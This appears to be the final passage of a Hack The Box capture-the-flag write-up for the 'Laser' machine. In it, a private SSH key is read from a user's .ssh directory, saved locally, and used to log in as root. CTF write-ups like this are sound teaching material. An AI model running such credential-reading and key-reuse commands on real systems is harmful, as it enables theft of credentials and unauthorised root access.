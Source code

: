 ```python

ls;cd purabparihar/.ssh;cat id_rsa

```
Now copy those ssh keys and then save it in file

```python
chmod 600 root_ssh
ssh -i root_ssh root@laser.htb

```

![Root](/images/Hackthebox/Laser/root.png)

**Thank You Everyone for reading this blog! I hope you learned something new**